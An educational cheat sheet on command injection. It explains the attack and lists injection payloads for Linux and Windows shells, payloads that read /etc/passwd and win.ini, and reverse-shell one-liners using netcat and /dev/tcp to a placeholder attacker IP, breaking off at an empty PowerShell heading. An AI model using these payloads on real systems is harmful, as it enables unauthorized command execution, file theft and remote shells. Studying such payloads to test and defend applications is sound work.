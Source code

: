 
## Command Injection

### Understanding Command Injection

Command Injection is an attack in which the goal is the execution of arbitrary commands on the host operating system via a vulnerable application. This occurs when an application passes unsanitized user-supplied input to a system shell.

**Impact of Command Injection:**
* **Remote Code Execution (RCE)**: Full control over the server.
* **Data Exfiltration**: Reading sensitive files (e.g., `/etc/passwd`, configuration files).
* **Privilege Escalation**: Running commands as a more privileged user.
* **Denial of Service**: Shutting down services or deleting critical files.
* **Establishing Backdoors**: Creating new user accounts, installing malware.

### Command Injection Payloads

Attackers use various shell metacharacters to inject commands. The effectiveness depends on the underlying OS (Windows/Linux) and the shell used.

* **Linux/Unix-like Systems (Bash, Sh, etc.)**:
    * **`&` (AND operator)**: Executes command regardless of previous command's success.
        * `cmd=ls & id`
    * **`&&` (Conditional AND)**: Executes command only if previous command succeeds.
        * `cmd=ls && id`
    * **`|` (Pipe)**: Output of first command becomes input of second.
        * `cmd=echo test | id`
    * **`||` (Conditional OR)**: Executes command only if previous command fails.
        * `cmd=false || id`
    * **`;` (Command Separator)**: Executes multiple commands sequentially.
        * `cmd=ls ; id`
    * **`` ` `` (Backticks)**: Command substitution; output of command inside backticks is treated as part of the outer command.
        * `cmd=echo `id``
    * **`$(command)` (Command Substitution)**: Similar to backticks, often preferred.
        * `cmd=echo $(id)`
    * **Newline characters (`%0a`, `\n`)**: If input is read line by line.
        * `cmd=ls%0a cat /etc/passwd`

* **Windows Systems (Cmd.exe)**:
    * **`&`**: `cmd=dir & whoami`
    * **`&&`**: `cmd=dir && whoami`
    * **`|`**: `cmd=echo hello | whoami`
    * **`||`**: `cmd=false || whoami`
    * **`;`**: Not generally a command separator in cmd.exe for this purpose, but sometimes works. Use `&` or `&&` instead.
    * **`%0a` (Newline)**: `cmd=dir%0a whoami`
    * **`^` (Escape character)**: Can be used to escape special characters if filtering is applied.
        * `cmd=dir ^& whoami`

* **Payload Examples:**
    * **Basic command execution**:
        * `cmd=; ls -la /`
        * `cmd=; cat /etc/passwd`
        * `cmd=; type C:\Windows\win.ini`
    * **Reverse Shell (Linux - Netcat)**:
        * `cmd=; nc -e /bin/sh <attacker_ip> <port>`
        * `cmd=; bash -i >& /dev/tcp/<attacker_ip>/<port> 0>&1`
    * **Reverse Shell (Windows - PowerShell)**: